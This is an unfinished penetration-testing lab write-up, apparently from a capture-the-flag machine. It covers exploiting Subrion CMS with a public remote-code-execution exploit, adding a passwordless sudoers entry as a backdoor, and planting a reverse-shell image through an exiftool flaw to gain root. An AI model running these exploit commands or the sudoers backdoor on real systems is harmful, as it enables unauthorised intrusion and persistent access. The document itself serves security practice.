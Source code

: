 #InProgress 
```IP
192.168.230.163
```
## Nmap
```

```

## Nmap UDP


# Enumeration

## HTTP
https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE
```
sudo python3 subrion.py -u http://192.168.230.163/panel/ -l admin -p admin
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014185926.png?raw=true)

```
echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014200119.png?raw=true)
root owned bash script in opt
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014200211.png?raw=true)

it reads images from var www html subrion uploads

create a revshell image
https://github.com/convisolabs/CVE-2021-22204-exiftool/tree/master
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014200311.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014200355.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014200411.png?raw=true)
## Automated

### Peass
### Mimikatz

